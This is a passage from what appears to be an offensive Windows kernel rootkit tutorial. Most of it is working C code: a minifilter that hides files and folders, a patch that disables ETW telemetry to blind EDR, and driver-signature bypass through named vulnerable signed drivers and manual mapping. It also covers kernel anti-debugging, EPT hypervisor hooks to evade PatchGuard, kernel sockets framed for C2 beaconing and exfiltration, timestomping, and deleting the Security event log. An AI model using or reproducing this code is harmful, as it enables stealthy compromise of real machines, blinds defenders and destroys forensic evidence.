        FLT_FILE_NAME_NORMALIZED | FLT_FILE_NAME_QUERY_DEFAULT,
        &nameInfo
    );

    if (NT_SUCCESS(status)) {
        FltParseFileNameInformation(nameInfo);

        // Hide files containing "secret" in the name
        if (wcsstr(nameInfo->Name.Buffer, L"secret") != NULL) {
            DbgPrintEx(DPFLTR_IHVDRIVER_ID, DPFLTR_INFO_LEVEL,
                       "[MiniFilter] BLOCKING access to: %wZ\n",
                       &nameInfo->Name);

            FltReleaseFileNameInformation(nameInfo);

            Data->IoStatus.Status      = STATUS_NOT_FOUND;
            Data->IoStatus.Information = 0;
            return FLT_PREOP_COMPLETE; // Don't pass down
        }

        FltReleaseFileNameInformation(nameInfo);
    }

    return FLT_PREOP_SUCCESS_WITH_CALLBACK;
}
13.3 INF File for Minifilter
Minifilters need an INF file for installation. Create minifilter.inf:

ini

[Version]
Signature   = "$Windows NT$"
Class       = "ActivityMonitor"
ClassGuid   = {b86dff51-a31e-4bac-b3cf-e8cfe75c9fc2}
Provider    = %ProviderString%
DriverVer   = 06/15/2024,1.0.0.0
CatalogFile = minifilter.cat

[DestinationDirs]
DefaultDestDir  = 12  ; %windir%\system32\drivers
MiniFilter.DriverFiles = 12

[DefaultInstall]
OptionDesc = %ServiceDescription%
CopyFiles  = MiniFilter.DriverFiles

[DefaultInstall.Services]
AddService = %ServiceName%,,MiniFilter.Service

[DefaultUninstall]
DelFiles = MiniFilter.DriverFiles

[DefaultUninstall.Services]
DelService = %ServiceName%,0x200

[MiniFilter.Service]
DisplayName    = %ServiceName%
Description    = %ServiceDescription%
ServiceBinary  = %12%\minifilter.sys
ServiceType    = 2   ; SERVICE_FILE_SYSTEM_DRIVER
StartType      = 3   ; SERVICE_DEMAND_START
ErrorControl   = 1
LoadOrderGroup = "FSFilter Activity Monitor"
AddReg         = MiniFilter.AddRegistry

[MiniFilter.AddRegistry]
HKR,,"SupportedFeatures",0x00010001,0x3
HKR,"Instances","DefaultInstance",0x00000000,%DefaultInstance%
HKR,"Instances\"%Instance1.Name%,"Altitude",0x00000000,%Instance1.Altitude%
HKR,"Instances\"%Instance1.Name%,"Flags",0x00010001,%Instance1.Flags%

[MiniFilter.DriverFiles]
minifilter.sys

[Strings]
ProviderString     = "Research"
ServiceName        = "MiniFilter"
ServiceDescription = "Research Minifilter Driver"
DefaultInstance    = "MiniFilter Instance"
Instance1.Name     = "MiniFilter Instance"
Instance1.Altitude = "360000"
Instance1.Flags    = 0x0
Install with:

PowerShell

# Install
rundll32.exe setupapi.dll,InstallHinfSection DefaultInstall 132 .\minifilter.inf

# Or manually:
fltmc load MiniFilter

# Unload:
fltmc unload MiniFilter

# List running minifilters:
fltmc
13.4 Hiding Directories (Advanced)
To hide entire directories from directory enumeration, intercept
IRP_MJ_DIRECTORY_CONTROL with minor function IRP_MN_QUERY_DIRECTORY:

C

FLT_PREOP_CALLBACK_STATUS
PreDirectoryControl(
    PFLT_CALLBACK_DATA    Data,
    PCFLT_RELATED_OBJECTS FltObjects,
    PVOID*                CompletionContext
)
{
    UNREFERENCED_PARAMETER(FltObjects);
    UNREFERENCED_PARAMETER(CompletionContext);

    if (Data->Iopb->MinorFunction != IRP_MN_QUERY_DIRECTORY)
        return FLT_PREOP_SUCCESS_WITH_CALLBACK;

    // Let the FS handle it first, then filter in post-op
    return FLT_PREOP_SUCCESS_WITH_CALLBACK;
}

FLT_POSTOP_CALLBACK_STATUS
PostDirectoryControl(
    PFLT_CALLBACK_DATA       Data,
    PCFLT_RELATED_OBJECTS     FltObjects,
    PVOID                     CompletionContext,
    FLT_POST_OPERATION_FLAGS  Flags
)
{
    UNREFERENCED_PARAMETER(FltObjects);
    UNREFERENCED_PARAMETER(CompletionContext);
    UNREFERENCED_PARAMETER(Flags);

    if (!NT_SUCCESS(Data->IoStatus.Status))
        return FLT_POSTOP_FINISHED_PROCESSING;

    PVOID buffer = Data->Iopb->Parameters.DirectoryControl.QueryDirectory.DirectoryBuffer;
    ULONG infoClass = Data->Iopb->Parameters.DirectoryControl.QueryDirectory.FileInformationClass;

    if (infoClass == FileBothDirectoryInformation) {
        PFILE_BOTH_DIR_INFORMATION info = (PFILE_BOTH_DIR_INFORMATION)buffer;
        PFILE_BOTH_DIR_INFORMATION prev = NULL;

        while (TRUE) {
            UNICODE_STRING fileName;
            fileName.Buffer = info->FileName;
            fileName.Length = (USHORT)info->FileNameLength;
            fileName.MaximumLength = (USHORT)info->FileNameLength;

            UNICODE_STRING hiddenName = RTL_CONSTANT_STRING(L"secret_folder");

            if (RtlEqualUnicodeString(&fileName, &hiddenName, TRUE)) {
                // Remove this entry from the linked list
                if (info->NextEntryOffset == 0) {
                    // Last entry — set previous entry's NextEntryOffset to 0
                    if (prev) {
                        prev->NextEntryOffset = 0;
                    } else {
                        // Only entry — return empty
                        Data->IoStatus.Status = STATUS_NO_MORE_FILES;
                    }
                } else {
                    // Middle entry — skip it
                    if (prev) {
                        prev->NextEntryOffset += info->NextEntryOffset;
                    } else {
                        // First entry — shift buffer
                        ULONG moveLen = 0;
                        PFILE_BOTH_DIR_INFORMATION next =
                            (PFILE_BOTH_DIR_INFORMATION)((PUCHAR)info + info->NextEntryOffset);
                        // Calculate remaining buffer size... (simplified)
                        RtlMoveMemory(info, next,
                            Data->IoStatus.Information - info->NextEntryOffset);
                    }
                }
                break; // For simplicity, handle one hidden entry per call
            }

            if (info->NextEntryOffset == 0) break;
            prev = info;
            info = (PFILE_BOTH_DIR_INFORMATION)((PUCHAR)info + info->NextEntryOffset);
        }
    }

    return FLT_POSTOP_FINISHED_PROCESSING;
}
Part III — Advanced Offensive Techniques
Chapter 14: Kernel-Mode Networking (WFP — Windows Filtering Platform)
14.1 Overview
WFP lets drivers inspect, modify, and block network traffic at various layers:

| Layer | Description |
| FWPM_LAYER_INBOUND_TRANSPORT_V4 | Incoming TCP/UDP before delivery |
| FWPM_LAYER_OUTBOUND_TRANSPORT_V4 | Outgoing TCP/UDP |
| FWPM_LAYER_ALE_AUTH_CONNECT_V4 | Connection authorization |
| FWPM_LAYER_ALE_AUTH_RECV_ACCEPT_V4 | Accept authorization |
| FWPM_LAYER_STREAM_V4 | TCP stream data |
14.2 Basic WFP Callout Driver
C

#include <ntddk.h>
#include <fwpsk.h>
#include <fwpmk.h>

HANDLE g_EngineHandle = NULL;
UINT32 g_CalloutId = 0;
UINT64 g_FilterId = 0;

// {GUID} — generate your own
DEFINE_GUID(WFP_CALLOUT_GUID,
    0x12345678, 0xABCD, 0xEF01,
    0x23, 0x45, 0x67, 0x89, 0xAB, 0xCD, 0xEF, 0x01);

DEFINE_GUID(WFP_SUBLAYER_GUID,
    0x87654321, 0xDCBA, 0x10FE,
    0x32, 0x54, 0x76, 0x98, 0xBA, 0xDC, 0xFE, 0x10);

/* Classify function — called for each matching packet */
VOID NTAPI
WfpClassifyFn(
    const FWPS_INCOMING_VALUES0*          inFixedValues,
    const FWPS_INCOMING_METADATA_VALUES0* inMetaValues,
    void*                                  layerData,
    const void*                            classifyContext,
    const FWPS_FILTER3*                    filter,
    UINT64                                 flowContext,
    FWPS_CLASSIFY_OUT0*                    classifyOut
)
{
    UNREFERENCED_PARAMETER(inMetaValues);
    UNREFERENCED_PARAMETER(layerData);
    UNREFERENCED_PARAMETER(classifyContext);
    UNREFERENCED_PARAMETER(filter);
    UNREFERENCED_PARAMETER(flowContext);

    // Get remote IP (for OUTBOUND_TRANSPORT_V4)
    UINT32 remoteIp = inFixedValues->incomingValue[
        FWPS_FIELD_OUTBOUND_TRANSPORT_V4_IP_REMOTE_ADDRESS
    ].value.uint32;

    UINT16 remotePort = inFixedValues->incomingValue[
        FWPS_FIELD_OUTBOUND_TRANSPORT_V4_IP_REMOTE_PORT
    ].value.uint16;

    // Block connections to 1.2.3.4
    if (remoteIp == 0x01020304) { // Network byte order varies
        classifyOut->actionType = FWP_ACTION_BLOCK;
        classifyOut->rights &= ~FWPS_RIGHT_ACTION_WRITE;

        DbgPrintEx(DPFLTR_IHVDRIVER_ID, DPFLTR_INFO_LEVEL,
                   "[WFP] BLOCKED connection to 1.2.3.4:%u\n", remotePort);
        return;
    }

    classifyOut->actionType = FWP_ACTION_PERMIT;
}

/* Notify function */
NTSTATUS NTAPI
WfpNotifyFn(
    FWPS_CALLOUT_NOTIFY_TYPE notifyType,
    const GUID*              filterKey,
    FWPS_FILTER3*            filter
)
{
    UNREFERENCED_PARAMETER(notifyType);
    UNREFERENCED_PARAMETER(filterKey);
    UNREFERENCED_PARAMETER(filter);
    return STATUS_SUCCESS;
}

/* Register the callout and filter */
NTSTATUS RegisterWfpCallout(PDEVICE_OBJECT DeviceObject)
{
    NTSTATUS status;

    // Open BFE engine
    status = FwpmEngineOpen0(NULL, RPC_C_AUTHN_WINNT, NULL, NULL, &g_EngineHandle);
    if (!NT_SUCCESS(status)) return status;

    // Register callout with FWPS (kernel)
    FWPS_CALLOUT3 sCallout = {0};
    sCallout.calloutKey           = WFP_CALLOUT_GUID;
    sCallout.classifyFn           = WfpClassifyFn;
    sCallout.notifyFn             = WfpNotifyFn;
    sCallout.flowDeleteFn         = NULL;

    status = FwpsCalloutRegister3(DeviceObject, &sCallout, &g_CalloutId);
    if (!NT_SUCCESS(status)) return status;

    // Add callout to FWPM (management)
    FWPM_CALLOUT0 mCallout = {0};
    mCallout.calloutKey     = WFP_CALLOUT_GUID;
    mCallout.displayData.name = L"Research WFP Callout";
    mCallout.applicableLayer = FWPM_LAYER_OUTBOUND_TRANSPORT_V4;

    status = FwpmCalloutAdd0(g_EngineHandle, &mCallout, NULL, NULL);
    if (!NT_SUCCESS(status)) return status;

    // Add sublayer
    FWPM_SUBLAYER0 subLayer = {0};
    subLayer.subLayerKey       = WFP_SUBLAYER_GUID;
    subLayer.displayData.name  = L"Research Sublayer";
    subLayer.weight            = 0xFFFF;

    status = FwpmSubLayerAdd0(g_EngineHandle, &subLayer, NULL);
    if (!NT_SUCCESS(status)) return status;

    // Add filter
    FWPM_FILTER0 wfpFilter = {0};
    wfpFilter.layerKey         = FWPM_LAYER_OUTBOUND_TRANSPORT_V4;
    wfpFilter.displayData.name = L"Research Filter";
    wfpFilter.action.type      = FWP_ACTION_CALLOUT_TERMINATING;
    wfpFilter.action.calloutKey = WFP_CALLOUT_GUID;
    wfpFilter.subLayerKey      = WFP_SUBLAYER_GUID;
    wfpFilter.weight.type      = FWP_UINT8;
    wfpFilter.weight.uint8     = 0xF;

    status = FwpmFilterAdd0(g_EngineHandle, &wfpFilter, NULL, &g_FilterId);
    return status;
}

VOID UnregisterWfpCallout(VOID)
{
    FwpmFilterDeleteById0(g_EngineHandle, g_FilterId);
    FwpmSubLayerDeleteByKey0(g_EngineHandle, &WFP_SUBLAYER_GUID);
    FwpmCalloutDeleteByKey0(g_EngineHandle, &WFP_CALLOUT_GUID);
    FwpsCalloutUnregisterById0(g_CalloutId);
    FwpmEngineClose0(g_EngineHandle);
}
Add to the linker: fwpkclnt.lib and uuid.lib.

Chapter 15: Disabling ETW (Event Tracing for Windows)
ETW is a major telemetry source for EDR products. Disabling it from the
kernel blinds defenders.

15.1 Patching EtwpEventWriteFull
The core function that writes ETW events is EtwpEventWriteFull (or
EtwEventWrite). Patching its first bytes to RET effectively kills ETW:

C

NTSTATUS DisableETW(VOID)
{
    UNICODE_STRING funcName = RTL_CONSTANT_STRING(L"EtwEventWrite");
    PVOID funcAddr = MmGetSystemRoutineAddress(&funcName);

    if (!funcAddr) {
        DbgPrintEx(DPFLTR_IHVDRIVER_ID, DPFLTR_ERROR_LEVEL,
                   "[ETW] Could not find EtwEventWrite\n");
        return STATUS_NOT_FOUND;
    }

    // Patch: xor eax, eax; ret (return STATUS_SUCCESS = 0)
    UCHAR patch[] = { 0x33, 0xC0, 0xC3 };  // xor eax,eax ; ret

    NTSTATUS status = WriteToReadOnlyMemory(funcAddr, patch, sizeof(patch));

    if (NT_SUCCESS(status)) {
        DbgPrintEx(DPFLTR_IHVDRIVER_ID, DPFLTR_INFO_LEVEL,
                   "[ETW] Patched EtwEventWrite at %p\n", funcAddr);
    }

    return status;
}
15.2 Disabling Specific ETW Providers
Rather than killing all ETW, you can target specific providers by finding
their TRACE_ENABLE_INFO structures and zeroing the IsEnabled field.
This is more surgical and harder to detect.

C

// Each ETW provider is represented by a _ETW_REG_ENTRY / _ETW_GUID_ENTRY
// These are undocumented and version-specific. You would:
// 1. Find the provider's GUID entry in the EtwpGuidHashTable.
// 2. Zero out the EnableInfo for the specific level/keyword.
Chapter 16: Bypassing Driver Signature Enforcement (DSE)
On production systems you can't just enable Test Signing. Here are techniques
used in the wild.

16.1 Vulnerable Driver Abuse (BYOVD — Bring Your Own Vulnerable Driver)
Find a legitimately signed driver with a known vulnerability
(e.g., arbitrary read/write).
Load it (it passes DSE because it's properly signed).
Use its vulnerability to gain kernel R/W.
Map your unsigned driver manually.
Common vulnerable drivers:

| Driver | CVE / Issue | Capability |
| RTCore64.sys (MSI) | CVE-2019-16098 | Physical memory R/W |
| DBUtil_2_3.sys (Dell) | CVE-2021-21551 | Physical memory R/W |
| AsIO.sys (ASUS) | CVE-2020-14032 | Physical memory R/W |
| capcom.sys | N/A | Arbitrary code execution in Ring 0 |
| gdrv.sys (Gigabyte) | CVE-2018-19320 | Physical memory R/W |
16.2 DSE Global Variable Patching
The kernel has a global variable (g_CiEnabled in ci.dll or
nt!g_CiOptions) that controls whether Code Integrity enforces signatures.
With a kernel R/W primitive you can zero it:

C

// Pseudocode — requires kernel R/W (e.g., from a vuln driver)
// 1. Find ci.dll base
// 2. Find g_CiOptions offset (scan for pattern or use PDB)
// 3. Write 0 to it

// After this, you can load ANY unsigned driver with sc.exe.

// When done, restore the original value to avoid detection.
16.3 Manual Mapping
Instead of loading via the Service Control Manager (which checks DSE), you can
manually map your driver into kernel memory:

Allocate non-paged pool (using the vuln driver's R/W).
Copy your driver's PE sections into the allocated memory.
Process relocations.
Resolve imports (find ntoskrnl export addresses).
Call the mapped DriverEntry.
This is essentially a kernel-mode PE loader. Libraries like KDMapper do
exactly this.

C

// Simplified pseudocode for manual mapping:

NTSTATUS ManualMapDriver(PVOID driverImage, SIZE_T imageSize)
{
    PIMAGE_DOS_HEADER dos = (PIMAGE_DOS_HEADER)driverImage;
    PIMAGE_NT_HEADERS nt = (PIMAGE_NT_HEADERS)((PUCHAR)driverImage + dos->e_lfanew);

    SIZE_T sizeOfImage = nt->OptionalHeader.SizeOfImage;

    // 1. Allocate kernel memory
    PVOID mapped = ExAllocatePool2(
        POOL_FLAG_NON_PAGED | POOL_FLAG_NON_PAGED_EXECUTE,
        sizeOfImage, 'pamM'
    );
    if (!mapped) return STATUS_INSUFFICIENT_RESOURCES;

    // 2. Copy headers
    RtlCopyMemory(mapped, driverImage, nt->OptionalHeader.SizeOfHeaders);

    // 3. Copy sections
    PIMAGE_SECTION_HEADER section = IMAGE_FIRST_SECTION(nt);
    for (USHORT i = 0; i < nt->FileHeader.NumberOfSections; i++) {
        if (section[i].SizeOfRawData) {
            RtlCopyMemory(
                (PUCHAR)mapped + section[i].VirtualAddress,
                (PUCHAR)driverImage + section[i].PointerToRawData,
                section[i].SizeOfRawData
            );
        }
    }

    // 4. Process relocations
    ULONG64 delta = (ULONG64)mapped - nt->OptionalHeader.ImageBase;
    ProcessRelocations(mapped, delta);

    // 5. Resolve imports
    ResolveImports(mapped);

    // 6. Call DriverEntry
    typedef NTSTATUS (*PFN_DRIVER_ENTRY)(PDRIVER_OBJECT, PUNICODE_STRING);
    PFN_DRIVER_ENTRY entry = (PFN_DRIVER_ENTRY)(
        (PUCHAR)mapped + nt->OptionalHeader.AddressOfEntryPoint
    );

    // Pass NULL for DriverObject — the manually mapped driver won't
    // use it (or we create a fake one)
    return entry(NULL, NULL);
}
Real implementations are significantly more complex and must handle
forwarded exports, TLS, exception directories, etc.
{: .prompt-info }

Chapter 17: PatchGuard (KPP) — Understanding and Evasion Concepts
17.1 What PatchGuard Protects
PatchGuard checks integrity of:

SSDT (System Service Descriptor Table)
GDT / IDT (Global/Interrupt Descriptor Tables)
Certain MSRs (LSTAR, etc.)
Critical kernel code pages
Process list (PsActiveProcessHead)
Loaded module list
Various kernel global variables
Kernel stacks
If modifications are detected → CRITICAL_STRUCTURE_CORRUPTION (0x109) → BSOD.

17.2 How PatchGuard Works (Simplified)
During boot, KPP initializes with random timing.
A DPC (Deferred Procedure Call) fires at random intervals (5–10 minutes).
The DPC context is heavily obfuscated — encrypted with multiple keys,
stored in various disguises (as work items, APC routines, etc.).
The check routine hashes protected structures and compares to stored
checksums.
If mismatch → bugcheck.
mermaid

graph LR
    A[Random Timer] --> B[DPC fires]
    B --> C[Decrypt context]
    C --> D[Hash critical structures]
    D --> E{Match?}
    E -->|Yes| F[Reschedule timer]
    E -->|No| G[BSOD 0x109]
17.3 Known Evasion Strategies
These are documented for academic understanding. Each has trade-offs and
detection vectors.
{: .prompt-warning }

| Strategy | Description | Status |
| Timer DPC disabling | Find and disable the PatchGuard timer / DPC | Hard; contexts are obfuscated |
| Exception hooking | PG check can be triggered via exceptions; intercept and suppress | Used by some rootkits |
| Hypervisor-based | Run a type-1 hypervisor under Windows; present a "clean" view of memory to PG | Most reliable; see Chapter 19 |
| Context corruption | Find the encrypted PG context and corrupt it before the check runs | Fragile; many contexts exist |
| INF timing | Modify structures, then restore them before PG fires | Unreliable; timing is random |
17.4 Exception-Based PatchGuard Bypass (Concept)
PatchGuard's check routine intentionally causes an exception at the end of
its check (as a self-protection measure). By hooking the exception handling
path, you can detect when PG is about to run:

C

// Pseudocode:
// 1. Hook KeBugCheckEx or HalBugCheckSystem
// 2. When PG triggers bugcheck 0x109:
//    a. Restore all modifications (SSDT, etc.)
//    b. Prevent the bugcheck by "fixing" the check context
//    c. Return from the handler
This is extremely complex in practice and changes between Windows versions.

Chapter 18: Anti-Debugging and Anti-Analysis from Ring 0
18.1 Detecting Kernel Debugger
C

BOOLEAN IsDebuggerPresent(VOID)
{
    return KD_DEBUGGER_ENABLED && !KD_DEBUGGER_NOT_PRESENT;
}
Or check the KUSER_SHARED_DATA structure:

C

BOOLEAN CheckSharedData(VOID)
{
    // KUSER_SHARED_DATA is at 0xFFFFF78000000000 on x64
    PKUSER_SHARED_DATA sharedData =
        (PKUSER_SHARED_DATA)0xFFFFF78000000000ULL;
    return sharedData->KdDebuggerEnabled;
}
18.2 Clearing Debug Flags
C

VOID AntiDebug(VOID)
{
    // Clear KdDebuggerEnabled
    PKUSER_SHARED_DATA sharedData =
        (PKUSER_SHARED_DATA)0xFFFFF78000000000ULL;

    // Need to write to read-only page
    WriteToReadOnlyMemory(
        &sharedData->KdDebuggerEnabled,
        "\x00", 1
    );

    // Clear NtGlobalFlag in each process's PEB
    // ... (done per-process)
}
18.3 Removing Debugger Breakpoints
Scan kernel code sections for INT 3 (0xCC) instructions that the debugger
inserted, and replace them with NOPs or the original bytes.

18.4 Timing-Based Anti-Debug
C

VOID TimingCheck(VOID)
{
    LARGE_INTEGER start, end, freq;
    KeQueryPerformanceCounter(&freq);
    start = KeQueryPerformanceCounter(NULL);

    // Dummy operation
    for (volatile int i = 0; i < 1000; i++);

    end = KeQueryPerformanceCounter(NULL);

    LONGLONG elapsed = end.QuadPart - start.QuadPart;
    LONGLONG elapsedUs = (elapsed * 1000000) / freq.QuadPart;

    if (elapsedUs > 1000) { // Suspiciously slow — debugger stepping?
        DbgPrintEx(DPFLTR_IHVDRIVER_ID, DPFLTR_WARNING_LEVEL,
                   "[ANTI] Possible debugger detected (timing)\n");
    }
}
Chapter 19: Hypervisor-Based Rootkit Concepts
19.1 What Is a Hypervisor Rootkit?
Instead of hooking kernel structures (which PatchGuard detects), a hypervisor
rootkit places itself below the OS:

text

┌─────────────────────────────┐
│      User Applications       │  Ring 3
├─────────────────────────────┤
│      Windows Kernel          │  Ring 0
├─────────────────────────────┤
│      Your Hypervisor         │  Ring -1 (VMX root)
├─────────────────────────────┤
│      Hardware (CPU)          │
└─────────────────────────────┘
The hypervisor can intercept any operation the OS performs by configuring
VM exits — events that transfer control from the guest (Windows) to the
hypervisor.

19.2 Intel VT-x Basics
| Concept | Description |
| VMXON | Enable VMX operation |
| VMCS | Virtual Machine Control Structure — configuration per vCPU |
| VMX root mode | The hypervisor runs here |
| VMX non-root mode | The guest (Windows) runs here |
| VM exit | Transition from non-root to root |
| VM entry | Transition from root to non-root |
19.3 Setting Up a Minimal Hypervisor
C

// Highly simplified — real hypervisors are thousands of lines

BOOLEAN CheckVMXSupport(VOID)
{
    int cpuInfo[4];
    __cpuid(cpuInfo, 1);
    return (cpuInfo[2] >> 5) & 1; // ECX bit 5 = VMX
}

NTSTATUS EnableVMX(VOID)
{
    // Set CR4.VMXE (bit 13)
    ULONG64 cr4 = __readcr4();
    __writecr4(cr4 | (1ULL << 13));

    // Allocate VMXON region (4KB, aligned)
    PHYSICAL_ADDRESS maxPhys;
    maxPhys.QuadPart = MAXULONG64;

    g_VmxonRegion = MmAllocateContiguousMemory(4096, maxPhys);
    RtlZeroMemory(g_VmxonRegion, 4096);

    // Write revision ID
    IA32_VMX_BASIC_MSR vmxBasic;
    vmxBasic.All = __readmsr(IA32_VMX_BASIC);
    *(PULONG)g_VmxonRegion = (ULONG)vmxBasic.Fields.RevisionId;

    // Execute VMXON
    PHYSICAL_ADDRESS vmxonPhys =
        MmGetPhysicalAddress(g_VmxonRegion);

    UCHAR status = __vmx_on(&vmxonPhys.QuadPart);
    if (status) {
        DbgPrintEx(DPFLTR_IHVDRIVER_ID, DPFLTR_ERROR_LEVEL,
                   "[HV] VMXON failed: %d\n", status);
        return STATUS_UNSUCCESSFUL;
    }

    DbgPrintEx(DPFLTR_IHVDRIVER_ID, DPFLTR_INFO_LEVEL,
               "[HV] VMXON succeeded!\n");

    return STATUS_SUCCESS;
}
19.4 EPT (Extended Page Tables) Hooking
The most powerful hypervisor hooking technique. EPT is the second level of
address translation:

text

Guest Virtual → Guest Physical → Host Physical
                (via guest page tables)  (via EPT)
By manipulating EPT entries, the hypervisor can:

Split views: Present different memory contents for execute vs
read accesses. When the CPU executes code, it sees the hooked version;
when it reads the same address, it sees the original.
This is completely invisible to PatchGuard because PG reads the original
bytes (which are intact) but execution goes through the hook.
text

EPT Page Table Entry for target page:
  Execute → Hooked page (contains JMP to our handler)
  Read/Write → Original page (intact, PG sees no changes)
C

// Pseudocode for EPT hook:

VOID SetupEPTHook(PVOID targetFunction, PVOID hookFunction)
{
    // 1. Find the guest physical address of the target page
    ULONG64 guestPhys = VirtualToPhysical(targetFunction);

    // 2. Create a copy of the page
    PVOID shadowPage = AllocatePhysicalPage();
    CopyPageContents(shadowPage, targetFunction);

    // 3. Patch the shadow page with a JMP to hookFunction
    InstallJumpStub(shadowPage, targetFunction, hookFunction);

    // 4. Modify EPT:
    //    - Execute permission → points to shadow page
    //    - Read/Write permission → points to original page
    EPT_PTE* pte = GetEPTPTE(guestPhys);
    pte->ExecutePhysical = GetPhysicalAddress(shadowPage);
    pte->ReadWritePhysical = guestPhys;

    // 5. Invalidate TLB
    InveptAllContexts();
}
This is the gold standard for modern rootkits and is used by advanced
threat actors.

Chapter 20: Network Communication from Ring 0
20.1 Why?
A kernel rootkit might need to:

Beacon to a C2 server.
Exfiltrate data.
Receive commands.
Doing this from Ring 0 avoids user-mode monitoring (EDR hooks on WinSock).

20.2 Using Winsock Kernel (WSK)
WSK is the kernel-mode networking API:

C

#include <ntddk.h>
#include <wsk.h>

WSK_REGISTRATION         g_WskRegistration;
WSK_PROVIDER_NPI         g_WskProvider;
WSK_CLIENT_DISPATCH      g_WskClientDispatch = { MAKE_WSK_VERSION(1, 0), 0, NULL };
WSK_CLIENT_NPI           g_WskClientNpi;

NTSTATUS InitWSK(VOID)
{
    g_WskClientNpi.ClientContext = NULL;
    g_WskClientNpi.Dispatch = &g_WskClientDispatch;

    NTSTATUS status = WskRegister(&g_WskClientNpi, &g_WskRegistration);
    if (!NT_SUCCESS(status)) return status;

    status = WskCaptureProviderNPI(
        &g_WskRegistration,
        WSK_INFINITE_WAIT,
        &g_WskProvider
    );

    return status;
}

VOID DeinitWSK(VOID)
{
    WskReleaseProviderNPI(&g_WskRegistration);
    WskDeregister(&g_WskRegistration);
}
20.3 Creating a TCP Socket and Connecting
C

KEVENT   g_CompletionEvent;
IRP*     g_Irp = NULL;
PWSK_SOCKET g_Socket = NULL;

NTSTATUS NTAPI WskCompletionRoutine(
    PDEVICE_OBJECT DeviceObject,
    PIRP           Irp,
    PVOID          Context
)
{
    UNREFERENCED_PARAMETER(DeviceObject);
    UNREFERENCED_PARAMETER(Irp);
    UNREFERENCED_PARAMETER(Context);
    KeSetEvent(&g_CompletionEvent, IO_NO_INCREMENT, FALSE);
    return STATUS_MORE_PROCESSING_REQUIRED;
}

NTSTATUS CreateAndConnect(VOID)
{
    NTSTATUS status;
    KeInitializeEvent(&g_CompletionEvent, SynchronizationEvent, FALSE);

    g_Irp = IoAllocateIrp(1, FALSE);
    if (!g_Irp) return STATUS_INSUFFICIENT_RESOURCES;

    IoSetCompletionRoutine(g_Irp, WskCompletionRoutine, NULL, TRUE, TRUE, TRUE);

    // Create socket
    status = g_WskProvider.Dispatch->WskSocket(
        g_WskProvider.Client,
        AF_INET,
        SOCK_STREAM,
        IPPROTO_TCP,
        WSK_FLAG_CONNECTION_SOCKET,
        NULL, NULL, NULL, NULL, NULL,
        g_Irp
    );

    if (status == STATUS_PENDING) {
        KeWaitForSingleObject(&g_CompletionEvent, Executive, KernelMode, FALSE, NULL);
        status = g_Irp->IoStatus.Status;
    }

    if (!NT_SUCCESS(status)) return status;

    g_Socket = (PWSK_SOCKET)g_Irp->IoStatus.Information;

    // Connect
    SOCKADDR_IN remoteAddr = {0};
    remoteAddr.sin_family = AF_INET;
    remoteAddr.sin_port   = RtlUshortByteSwap(443);  // Port 443
    // IP: 10.0.0.1 → 0x0100000A in network byte order
    remoteAddr.sin_addr.S_un.S_addr = 0x0100000A;

    IoReuseIrp(g_Irp, STATUS_SUCCESS);
    IoSetCompletionRoutine(g_Irp, WskCompletionRoutine, NULL, TRUE, TRUE, TRUE);
    KeClearEvent(&g_CompletionEvent);

    PWSK_PROVIDER_CONNECTION_DISPATCH connDispatch =
        (PWSK_PROVIDER_CONNECTION_DISPATCH)g_Socket->Dispatch;

    SOCKADDR_IN localAddr = {0};
    localAddr.sin_family = AF_INET;

    // Bind first
    status = connDispatch->WskBind(
        g_Socket, (PSOCKADDR)&localAddr, 0, g_Irp
    );
    if (status == STATUS_PENDING)
        KeWaitForSingleObject(&g_CompletionEvent, Executive, KernelMode, FALSE, NULL);

    // Connect
    IoReuseIrp(g_Irp, STATUS_SUCCESS);
    IoSetCompletionRoutine(g_Irp, WskCompletionRoutine, NULL, TRUE, TRUE, TRUE);
    KeClearEvent(&g_CompletionEvent);

    status = connDispatch->WskConnect(
        g_Socket, (PSOCKADDR)&remoteAddr, 0, g_Irp
    );
    if (status == STATUS_PENDING)
        KeWaitForSingleObject(&g_CompletionEvent, Executive, KernelMode, FALSE, NULL);

    return g_Irp->IoStatus.Status;
}
20.4 Sending Data
C

NTSTATUS SendData(PVOID data, SIZE_T length)
{
    WSK_BUF wskBuf;
    wskBuf.Mdl = IoAllocateMdl(data, (ULONG)length, FALSE, FALSE, NULL);
    MmBuildMdlForNonPagedPool(wskBuf.Mdl);
    wskBuf.Offset = 0;
    wskBuf.Length = length;

    IoReuseIrp(g_Irp, STATUS_SUCCESS);
    IoSetCompletionRoutine(g_Irp, WskCompletionRoutine, NULL, TRUE, TRUE, TRUE);
    KeClearEvent(&g_CompletionEvent);

    PWSK_PROVIDER_CONNECTION_DISPATCH connDispatch =
        (PWSK_PROVIDER_CONNECTION_DISPATCH)g_Socket->Dispatch;

    NTSTATUS status = connDispatch->WskSend(
        g_Socket, &wskBuf, 0, g_Irp
    );

    if (status == STATUS_PENDING)
        KeWaitForSingleObject(&g_CompletionEvent, Executive, KernelMode, FALSE, NULL);

    IoFreeMdl(wskBuf.Mdl);
    return g_Irp->IoStatus.Status;
}
Chapter 21: Anti-Forensics from Ring 0
21.1 Timestomping Files
Modify file timestamps to throw off forensic timelines:

C

NTSTATUS StompTimestamps(PUNICODE_STRING filePath)
{
    OBJECT_ATTRIBUTES objAttr;
    InitializeObjectAttributes(&objAttr, filePath, OBJ_KERNEL_HANDLE, NULL, NULL);

    HANDLE hFile;
    IO_STATUS_BLOCK ioStatus;

    NTSTATUS status = ZwCreateFile(
        &hFile, FILE_WRITE_ATTRIBUTES, &objAttr, &ioStatus,
        NULL, FILE_ATTRIBUTE_NORMAL, FILE_SHARE_READ,
        FILE_OPEN, 0, NULL, 0
    );

    if (!NT_SUCCESS(status)) return status;

    FILE_BASIC_INFORMATION basicInfo = {0};

    // Set all timestamps to January 1, 2020, 00:00:00 UTC
    LARGE_INTEGER fakeTime;
    // Use RtlTimeFieldsToTime or hardcode
    // 132224352000000000 = 2020-01-01 in FILETIME
    fakeTime.QuadPart = 132224352000000000LL;

    basicInfo.CreationTime   = fakeTime;
    basicInfo.LastAccessTime = fakeTime;
    basicInfo.LastWriteTime  = fakeTime;
    basicInfo.ChangeTime     = fakeTime;

    status = ZwSetInformationFile(
        hFile, &ioStatus,
        &basicInfo, sizeof(basicInfo),
        FileBasicInformation
    );

    ZwClose(hFile);
    return status;
}
21.2 Clearing Event Logs
C

// Approach 1: Delete log files directly
NTSTATUS ClearEventLogs(VOID)
{
    UNICODE_STRING logPath = RTL_CONSTANT_STRING(
        L"\\??\\C:\\Windows\\System32\\winevt\\Logs\\Security.evtx"
    );

    OBJECT_ATTRIBUTES objAttr;
